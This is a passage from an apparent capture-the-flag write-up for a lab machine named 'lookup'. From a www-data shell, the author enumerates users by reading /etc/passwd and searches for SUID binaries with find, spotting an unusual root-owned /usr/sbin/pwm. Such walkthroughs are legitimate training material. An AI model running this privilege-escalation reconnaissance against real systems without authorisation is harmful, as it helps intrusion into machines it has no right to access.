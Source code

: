 ```bash
drwxr-xr-x  5 think think 4096 Jan 11  2024 think
www-data@lookup:/home$ cd think
cd think
www-data@lookup:/home/think$ ls
ls
user.txt
www-data@lookup:/home/think$
```
Running the command ```cat /etc/passwd | grep /bin/bash``` to only retrieve the results containing /bin/bash and we are left with  2 users : ```root``` and ```think```.
```bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
```

We continue our enumeration, this time looking at SUID binaries, finding an interesting one that is not usually found when this command is run:
```  /usr/sbin/pwm```with the permission string ```-rwsr-sr-x``` and owner ```root```.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
      297    129 -rwsr-xr-x   1 root     root       131832 May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine
      847     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /snap/core20/1950/usr/bin/chfn
      853     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /snap/core20/1950/usr/bin/chsh
      922     87 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /snap/core20/1950/usr/bin/gpasswd
     1006     55 -rwsr-xr-x   1 root     root        55528 May 30  2023 /snap/core20/1950/usr/bin/mount
     1015     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /snap/core20/1950/usr/bin/newgrp
     1030     67 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /snap/core20/1950/usr/bin/passwd
     1140     67 -rwsr-xr-x   1 root     root        67816 May 30  2023 /snap/core20/1950/usr/bin/su
     1141    163 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /snap/core20/1950/usr/bin/sudo
     1199     39 -rwsr-xr-x   1 root     root        39144 May 30  2023 /snap/core20/1950/usr/bin/umount
     1288     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1660    463 -rwsr-xr-x   1 root     root              473576 Apr  3  2023 /snap/core20/1950/usr/lib/openssh/ssh-keysign
      847     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /snap/core20/1974/usr/bin/chfn
      853     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /snap/core20/1974/usr/bin/chsh
      922     87 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /snap/core20/1974/usr/bin/gpasswd
     1006     55 -rwsr-xr-x   1 root     root               55528 May 30  2023 /snap/core20/1974/usr/bin/mount
     1015     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /snap/core20/1974/usr/bin/newgrp
     1030     67 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /snap/core20/1974/usr/bin/passwd
     1140     67 -rwsr-xr-x   1 root     root               67816 May 30  2023 /snap/core20/1974/usr/bin/su
     1141    163 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /snap/core20/1974/usr/bin/sudo
     1199     39 -rwsr-xr-x   1 root     root               39144 May 30  2023 /snap/core20/1974/usr/bin/umount
```